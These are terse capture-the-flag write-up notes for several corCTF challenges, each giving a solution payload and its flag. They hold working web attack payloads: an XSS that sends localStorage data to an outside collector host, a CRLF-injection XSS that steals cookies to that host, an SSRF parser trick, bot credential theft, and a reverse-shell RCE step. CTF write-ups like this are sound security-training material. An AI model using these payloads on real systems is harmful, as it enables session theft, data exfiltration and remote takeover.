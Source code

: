 ## corshop
u32 multiplication overflow in the total cost calculation, making the effective total 0: `buy 3 67108864`
`corctf{surpr1s3_1ts_wrapp3d_4nd_fr33}`

## yamlquiz
#yaml
```yaml
result:
	- score: 83:20
```

`corctf{ihateyamlihateyamlihateyaml!!!`

## safe-url
#javascript #url 

challenge:
```
const isSafeHostname = (hostname) => {
  return safeHostnames.some(safeHostname => hostname === safeHostname || hostname.endsWith(`.${safeHostname}`));
};

function safeRedirect(url) {
  try {
    const redirectUrl = new URL(url, window.location.origin);

    if (!isSafeHostname(redirectUrl.hostname)) {
      alert("hostname is not safe!");
      return;
    }

    if (redirectUrl.pathname.length >= 10) {
      alert("pathname is too long!");
      return;
    }

    const safeUrl = `${redirectUrl.protocol}//${redirectUrl.host}${redirectUrl.pathname}`;
    console.log("redirecting to", safeUrl, "...");
    window.location = safeUrl;
  } catch (error) {
    console.log("error: ", error);
  }
}
```

solution:
`javascript://%0aeval(name)%2f%2f.cor.team`
```html
<script>
  open("https://safe-url.ctfi.ng/?redirect=javascript%3A%2F%2F%250aeval%28name%29%252f%252f.cor.team","navigator.sendBeacon('//2ronjtes.requestrepo.com',localStorage.getItem('flag'))")
</script>
```

`corctf{but_i_already_p4tented_it_:(((}`

## msbug (unintended)
steal admin psw by submitting to bot: `https://msbug-2.ctfi.ng@attacker/`
```
username=admin&password=Ai6*/y[^o~2G*P+@P05ZM70
```
`corctf{g0tta_h4v3_4n_34sy_msfr0g_ch4ll3ng3}`


## voucherd
#timing

just bruteforce each char, the one that takes the longer time is the correct guess
`corctf{d0nt_w0rry_corCTF_2026_w1ll_b3_fr33!}`

## msfrognymize2

#python #url #ssrf #parser 

urlparse -> requests parser diff
```python
def create_file_url(uuid):
    file_url = urljoin("http://127.0.0.1:8000", "/" + uuid)

    parsed = urlparse(file_url)

    if parsed.scheme != "http":
        raise ValueError("Invalid sheme")
    if parsed.hostname != "127.0.0.1":
        raise ValueError("Invalid host")
    if parsed.port != 8000:
        raise ValueError("Invalid port")

    return file_url
```

payload: `/attacker.com%0A%5C@127.0.0.1:8000`

`corctf{why_4re_pyth0n_jo1n_funt10ns_s0_w3ird?!}`

# git
#xss #crlf #rce

1. xss via crlf injection
```
https://git-9b2f1d55fc203373.ctfi.ng/builtin?name=diff.js&mimetype=text/html%0d%0a%0d%0a<script>fetch('/cookies').then((response)=>response.text()).then((responseText)=>{fetch(`https://2ronjtes.requestrepo.com/?cookie=${encodeURIComponent(responseText)}`)})%3b</script>
```
2. rce
```
1. edit setup_notification config,
   perl -e 'revshell'
2. send email /announce
3. command is triggered -> rev shell
```

`corctf{h0me_r0ll3d_http_what_cou1d_g0_wr0ng?}`
